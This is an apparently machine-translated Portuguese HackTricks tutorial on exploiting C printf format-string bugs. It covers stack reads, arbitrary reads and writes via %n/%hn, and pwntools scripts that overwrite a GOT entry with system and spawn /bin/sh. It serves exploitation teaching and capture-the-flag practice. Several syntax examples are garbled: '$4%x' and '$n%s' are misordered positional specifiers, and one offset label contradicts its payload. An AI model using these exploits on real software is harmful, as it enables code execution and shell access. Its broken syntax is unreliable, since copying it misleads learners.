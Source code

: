 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Em C **`printf`** é uma função que pode ser usada para **imprimir** alguma string. O **primeiro parâmetro** que essa função espera é o **texto bruto com os formatadores**. Os **parâmetros seguintes** esperados são os **valores** para **substituir** os **formatadores** do texto bruto.

A vulnerabilidade aparece quando um **texto de atacante é usado como o primeiro argumento** para essa função. O atacante será capaz de criar uma **entrada especial abusando** das capacidades da **string de formato printf** para ler e **escrever qualquer dado em qualquer endereço (legível/gratável)**. Sendo capaz assim de **executar código arbitrário**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Exemplos:**

* Exemplo vulnerável:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normal:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Com Argumentos Faltando:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Acessando Ponteiros**

O formato **`%<n>$x`**, onde `n` é um número, permite indicar ao printf para selecionar o n-ésimo parâmetro (da pilha). Então, se você quiser ler o 4º parâmetro da pilha usando printf, você poderia fazer:
```c
printf("%x %x %x %x")
```
e você leria do primeiro ao quarto parâmetro.

Ou você poderia fazer:
```c
printf("$4%x")
```
e ler diretamente o quarto.

Observe que o atacante controla o parâmetro `pr`**`intf`**, o que basicamente significa que** sua entrada estará na pilha quando `printf` for chamado, o que significa que ele poderia escrever endereços de memória específicos na pilha.

{% hint style="danger" %}
Um atacante controlando essa entrada, será capaz de **adicionar endereços arbitrários na pilha e fazer com que `printf` os acesse**. Na próxima seção, será explicado como usar esse comportamento.
{% endhint %}

## **Leitura Arbitrária**

É possível usar o formatador **`$n%s`** para fazer **`printf`** obter o **endereço** situado na **n posição**, segui-lo e **imprimí-lo como se fosse uma string** (imprimir até que um 0x00 seja encontrado). Então, se o endereço base do binário for **`0x8048000`**, e sabemos que a entrada do usuário começa na 4ª posição na pilha, é possível imprimir o início do binário com:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Observe que você não pode colocar o endereço 0x8048000 no início da entrada porque a string será cortada em 0x00 no final desse endereço.
{% endhint %}

## **Escrita Arbitrária**

O formatador **`$<num>%n`** **escreve** o **número de bytes escritos** no **endereço indicado** no parâmetro \<num> na pilha. Se um atacante puder escrever quantos caracteres quiser com printf, ele será capaz de fazer **`$<num>%n`** escrever um número arbitrário em um endereço arbitrário.

Felizmente, para escrever o número 9999, não é necessário adicionar 9999 "A"s à entrada; para isso, é possível usar o formatador **`%.<num-write>%<num>$n`** para escrever o número **`<num-write>`** no **endereço apontado pela posição `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
No entanto, note que geralmente, para escrever um endereço como `0x08049724` (que é um número ENORME para escrever de uma vez), **usa-se `$hn`** em vez de `$n`. Isso permite **escrever apenas 2 Bytes**. Portanto, essa operação é feita duas vezes, uma para os 2B mais altos do endereço e outra vez para os mais baixos.

Portanto, essa vulnerabilidade permite **escrever qualquer coisa em qualquer endereço (escrita arbitrária).**

Neste exemplo, o objetivo será **sobrescrever** o **endereço** de uma **função** na tabela **GOT** que será chamada mais tarde. Embora isso possa abusar de outras técnicas de escrita arbitrária para exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Vamos **sobrescrever** uma **função** que **recebe** seus **argumentos** do **usuário** e **apontá-la** para a **função** **`system`**.\
Como mencionado, para escrever o endereço, geralmente são necessários 2 passos: Você **primeiro escreve 2Bytes** do endereço e depois os outros 2. Para isso, usa-se **`$hn`**.

* **HOB** é chamado para os 2 bytes mais altos do endereço
* **LOB** é chamado para os 2 bytes mais baixos do endereço

Então, devido ao funcionamento da string de formato, você precisa **escrever primeiro o menor** de \[HOB, LOB] e depois o outro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modelo Pwntools

Você pode encontrar um modelo para preparar um exploit para esse tipo de vulnerabilidade em:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ou este exemplo básico de [**aqui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Outros Exemplos & Referências

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, sem relro, sem canário, nx, sem pie, uso básico de format strings para vazar a flag da pilha (sem necessidade de alterar o fluxo de execução)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, sem canário, nx, sem pie, format string para sobrescrever o endereço `fflush` com a função win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, sem canário, nx, sem pie, format string para escrever um endereço dentro de main em `.fini_array` (para que o fluxo retorne mais uma vez) e escrever o endereço para `system` na tabela GOT apontando para `strlen`. Quando o fluxo voltar para main, `strlen` é executado com a entrada do usuário e apontando para `system`, ele executará os comandos passados.

{% hint style="success" %}
Aprenda & pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda & pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
